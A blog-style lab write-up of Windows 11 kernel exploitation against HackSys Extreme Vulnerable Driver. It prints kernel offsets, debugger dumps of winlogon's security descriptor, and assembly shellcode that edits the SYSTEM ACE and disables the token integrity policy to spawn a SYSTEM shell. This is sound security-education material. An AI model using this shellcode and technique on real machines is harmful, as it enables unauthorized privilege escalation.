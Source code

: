 layout: post
title: "Revisiting Windows Kernel Shellcode on Windows 11: Stack Buffer Overflow with ACL Edit"
date: 2024-11-14 21:00:00 -0000
categories: windows kernel exploitation hevd shellcode

# Revisiting Windows Kernel Shellcode on Windows 11: Stack Buffer Overflow with ACL Edit

## Introduction

This post revisits the classic stack buffer overflow technique demonstrated in [Improsec's blog post](https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2) using HackSys Extreme Vulnerable Driver (HEVD), but updated for Windows 11. It makes use of the stack buffer overflow to modify the ACL of the winlogon process, and then spawns an elevated command prompt by injecting shellcode into the winlogon process.

## Background

The original technique involves changing the ACE of the SYSTEM entry, for the winlogon process, so that its SID matches that of the Authenticated Users group. In addition, the current process token mandatory integrity policy is changed to `TOKEN_MANDATORY_POLICY_OFF`. This is to allow the current process to get a handle to the winlogon process and create a remote thread to spawn an elevated command prompt.

The mandatory policies can be found at https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-token_mandatory_policy.

In what follows, this post will demonstrate the technique on Windows 11, version 23H2, along with full exploit code, from triggering the overflow to spawning the elevated command prompt. SMEP/KPTI are disabled.

```bash
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22631 N/A Build 22631
OS Manufacturer:           Microsoft Corporation
```

## Technical Implementation 

The exploit follows these steps:

1. Obtain handle to the vulnerable driver
2. Trigger buffer overflow to execute kernel shellcode
2. Craft shellcode that:
   - Locates winlogon process in kernel memory
   - Modifies ACL entries to grant access to the Authenticated Users group
4. Inject shellcode into winlogon process to spawn elevated command prompt

The initial HEVD exploitation is well documented and triggering the buffer overflow can be found in many other posts.

The original blog post analysis still holds on Windows 11.

The security descriptor of the winlogon process can still be found at the same offsets,

```bash
0: kd> !process 0 0 winlogon.exe
PROCESS ffffe481acef1080
    SessionId: 1  Cid: 02d8    Peb: 7bab37d000  ParentCid: 026c
    DirBase: 10da60000  ObjectTable: ffff8081a273d080  HandleCount: 280.
    Image: winlogon.exe
```

And getting the security descriptor offset from the object header at EPROCESS-0x30,

```bash
0: kd> dt nt!_OBJECT_HEADER ffffe481acef1080-30 SecurityDescriptor
   +0x028 SecurityDescriptor : 0xffff8081`9fc5adaf Void
```

The security descriptor is found at EPROCESS-0x30+0x28 but its lower 4 bits are a fast reference, so they must be masked off,

```bash
0: kd> !sd 0xffff8081`9fc5ada0
->Revision: 0x1
->Sbz1    : 0x0
->Control : 0x8814
            SE_DACL_PRESENT
            SE_SACL_PRESENT
            SE_SACL_AUTO_INHERITED
            SE_SELF_RELATIVE
->Owner   : S-1-5-32-544
->Group   : S-1-5-18
->Dacl    : 
->Dacl    : ->AclRevision: 0x2
->Dacl    : ->Sbz1       : 0x0
->Dacl    : ->AclSize    : 0x3c
->Dacl    : ->AceCount   : 0x2
->Dacl    : ->Sbz2       : 0x0
->Dacl    : ->Ace[0]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[0]: ->AceFlags: 0x0
->Dacl    : ->Ace[0]: ->AceSize: 0x14
->Dacl    : ->Ace[0]: ->Mask : 0x001fffff
->Dacl    : ->Ace[0]: ->SID: S-1-5-18

->Dacl    : ->Ace[1]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[1]: ->AceFlags: 0x0
->Dacl    : ->Ace[1]: ->AceSize: 0x18
->Dacl    : ->Ace[1]: ->Mask : 0x00121411
->Dacl    : ->Ace[1]: ->SID: S-1-5-32-544

->Sacl    : 
->Sacl    : ->AclRevision: 0x2
->Sacl    : ->Sbz1       : 0x0
->Sacl    : ->AclSize    : 0x1c
->Sacl    : ->AceCount   : 0x1
->Sacl    : ->Sbz2       : 0x0
->Sacl    : ->Ace[0]: ->AceType: SYSTEM_MANDATORY_LABEL_ACE_TYPE
->Sacl    : ->Ace[0]: ->AceFlags: 0x0
->Sacl    : ->Ace[0]: ->AceSize: 0x14
->Sacl    : ->Ace[0]: ->Mask : 0x00000003
->Sacl    : ->Ace[0]: ->SID: S-1-16-16384
```

The ACEs are found at the same offsets as well. The remaining analysis of the mandatory integrity policy is the same as the original blog post.

## Code Walkthrough

The full exploit code can be found in [src/main.rs](https://github.com/glslang/hevd-exp/blob/main/stack_buffer_overflow_acl_edit/src/main.rs).

The ACL edit shellcode can be found in [acl_edit.asm](https://github.com/glslang/win-kexp/blob/main/src/asm/acl_edit.asm).

The updated offsets used in the shellcode are,

```bash
KTHREAD_OFFSET        EQU 188h    ; Offset to current KTHREAD from GS
EPROCESS_OFFSET       EQU 0B8h    ; Offset to EPROCESS from KTHREAD
ACTIVEPROCESSLINKS    EQU 448h    ; Offset to ActiveProcessLinks
IMAGEFILENAME_OFFSET  EQU 5A8h    ; Offset to ImageFileName
TOKEN_OFFSET          EQU 4b8h    ; Offset to process token
```

Then it proceeds to find the winlogon process,

```
    mov rax,gs:[rax+KTHREAD_OFFSET]    ; Get current KTHREAD
    mov rax,[rax+EPROCESS_OFFSET]      ; Get current EPROCESS
    mov rcx,rax
__loop:
    mov rax,[rax+ACTIVEPROCESSLINKS]                        ; Get next process
    sub rax,ACTIVEPROCESSLINKS                              ; Adjust to get EPROCESS base
    cmp dword ptr [rax+IMAGEFILENAME_OFFSET],6c6e6977h      ; Compare ImageFileName
    jnz __loopbash
```

RAX now points to the winlogon process EPROCESS, and RCX contains the current EPROCESS.

```bash
    sub rax,30h
    add rax,28h
```

The offset to the object header is found by subtracting 0x30 and then the security descriptor is found by adding 0x28 from the EPROCESS base. The two instructions are for clarity of the explanation.

The next step is to modify the ACL entries,

``` bash
    mov rax, qword ptr [rax]
    and rax,0FFFFFFFFFFFFFFF0h
    add rax,48h
    mov byte ptr [rax],0bh
```

RAX is dereferenced and the security descriptor is masked off. Adding 0x48 to the address gets to the first ACE and the byte at that location is modified to 11 (0x0B), which is the 18 (0x12) for the SYSTEM ACE.

The remaining shellcode is for setting the mandatory integrity policy,

``` bash
    mov rdx, qword ptr [rcx+TOKEN_OFFSET]
    and rdx,0FFFFFFFFFFFFFFF0h
    add rdx,0d4h
    mov byte ptr [rdx],0
```

RDX is set to the token address and masked off. Adding 0xd4 to the address gets to the mandatory integrity policy and the byte at that location is modified to 0, which is the `TOKEN_MANDATORY_POLICY_OFF` value.

The shellcode also contains an epilogue to restore the original stack and registers to safely return to the caller.

The remaining exploit code is for injecting the shellcode into the winlogon process and spawning the elevated command prompt. The injection is a standard injection. The handle to the victim process is returned, memory for the shellcode is allocated and written to the user space of the victim process, and then a remote thread is created to execute the shellcode.

These steps can be found at https://github.com/glslang/win-kexp/blob/main/src/process.rs#L112.

Executing the exploit code and our elevated command prompt can be found below,

![Launching the elevated command prompt](https://github.com/glslang/hevd-exp/blob/main/stack_buffer_overflow_acl_edit/img/acl_edit_system.png)

## Conclusion

This post revisits the ACL edit technique on Windows 11 and demonstrates the technique with full exploit code, with the expectation that the source code can be used to understand the technique and to better follow along with the original blog post.

## References

- https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2
- https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
- https://github.com/glslang/win-kexp
